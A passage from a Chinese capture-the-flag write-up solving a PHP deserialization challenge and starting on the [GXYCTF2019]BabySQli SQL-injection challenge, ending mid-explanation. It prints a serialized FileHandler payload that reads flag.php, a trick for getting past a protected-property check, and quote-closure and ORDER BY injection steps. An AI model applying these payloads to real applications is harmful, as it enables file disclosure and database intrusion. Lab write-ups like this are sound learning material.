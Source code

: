
分析代码，我们可以使用 php弱类型比较绕过 __destruct() 方法将 op->1.

并且只要 $filename="flag.php" 就可以读取到 源码，得到 flag了。

但是此处有一个问题，将 protected修饰的变量序列化之后，会产生不可见字符`\00*\00`，这样我们无法绕过 is_valid()检查

我们可以将其先改为public修饰，这样就可以了。

```php
<?php
class FileHandler {

    public $op = 2;
    public $filename = "flag.php";
    public $content;
}
echo serialize(new FileHandler());
```

```php
O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";s:7:"content";N;}
```

传参给str，成功得到flag：

![image-20221230171130134](https://s2.loli.net/2022/12/30/YftDcvqCkwFlURn.png)



> **对于PHP版本7.1+，对属性的类型不敏感**，我们可以将protected类型改为public，以消除不可打印字符



## [GXYCTF2019]BabySQli

<img src="https://s2.loli.net/2022/12/30/REN5BpwxJWoIYT3.png" alt="image-20221230175705992" style="zoom:33%;" />

登录的时候抓包：

![image-20221230175229141](https://s2.loli.net/2022/12/30/61spyjToenhvkUB.png)

发现源码中有一串编码(字母大写+数字) 这是 base32编码

于是我们去解密，得到 base64编码，再解密得到：

```mysql
select * from user where username = '$name'
```

我们尝试使用 '  闭合： 使用 Or (or被过滤了)

![image-20221230175633108](https://s2.loli.net/2022/12/30/f1dPV8tFiayL43O.png)

我们发现密码错误，然后我们使用 `Order by` 判断出字段数为 3

我们发现 () 被过滤了，玩毛。

然后，这题的逻辑是这样的：
